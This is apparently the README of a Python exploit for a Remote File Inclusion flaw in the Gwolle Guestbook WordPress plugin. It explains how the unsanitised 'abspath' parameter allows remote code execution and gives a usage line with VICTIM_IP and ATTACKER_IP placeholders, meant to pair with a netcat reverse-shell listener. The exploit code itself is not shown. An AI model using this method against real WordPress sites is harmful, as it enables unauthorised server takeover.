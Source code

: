 <h1>Gwolle Guestbook WordPress Plugin RFI Exploit</h1>

<p>This Python script exploits a critical Remote File Inclusion (RFI) vulnerability in the Gwolle Guestbook WordPress Plugin, which can be exploited by a non-authenticated attacker to include a remote PHP file and execute arbitrary code on the vulnerable system.</p>

<h2>Vulnerability Details</h2>

<p>HTTP GET parameter "abspath" is not being properly sanitized before being used in PHP require() function. A remote attacker can include a file named 'wp-load.php' from an arbitrary remote server and execute its content on the vulnerable web server. In order to do so, the attacker needs to place a malicious 'wp-load.php' file into their server document root and include the server's URL into the request.</p>

<p>Successful exploitation of this vulnerability can lead to the compromise of the entire WordPress installation, and may even lead to the entire web server's compromise.</p>

<h2>Usage</h2>

<p>The script requires three arguments:</p>

<ul>
  <li>Target URL: The URL of the vulnerable WordPress installation.</li>
  <li>Attacker host: The IP address or hostname of the attacker's machine.</li>
  <li>Attacker port: The port number where the attacker is listening for a reverse shell.</li>
</ul>

<p>Example:</p>

<pre><code>python3 exploit.py VICTIM_IP/WORDPRESS ATTACKER_IP ATTACKER_PORT</code></pre>

<p>Note: You need to have a netcat listener open on the attacker machine on the specified port.</p>

<h2>Disclaimer</h2>

<p>This script is provided for educational purposes only. The author is not responsible for any damages caused by the misuse of this script.</p>
